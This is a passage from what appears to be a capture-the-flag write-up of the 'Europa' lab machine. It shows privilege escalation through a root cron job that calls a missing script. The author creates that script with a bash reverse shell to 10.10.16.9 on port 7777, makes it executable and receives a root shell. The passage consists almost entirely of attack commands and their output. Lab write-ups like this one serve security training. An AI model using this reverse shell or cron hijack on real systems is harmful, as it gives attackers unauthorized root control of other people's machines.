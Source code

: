 - But script doesn't exist
```
www-data@europa:/var/www/cronjobs$ ls -lha /var/www/cmd/logcleared.sh
ls: cannot access '/var/www/cmd/logcleared.sh': No such file or directory

```

- And the job is running every minute
```
www-data@europa:/var/www/cronjobs$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *       root    /var/www/cronjobs/clearlogs

```

- Let's create the script and get our root shell
```
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.10.16.9/7777 0>&1
```
```
www-data@europa:/var/www/cronjobs$ vim /var/www/cmd/logcleared.sh
www-data@europa:/var/www/cronjobs$ chmod +x /var/www/cmd/logcleared.sh
```

- After a minute we receive a shell

![](./images/11.png)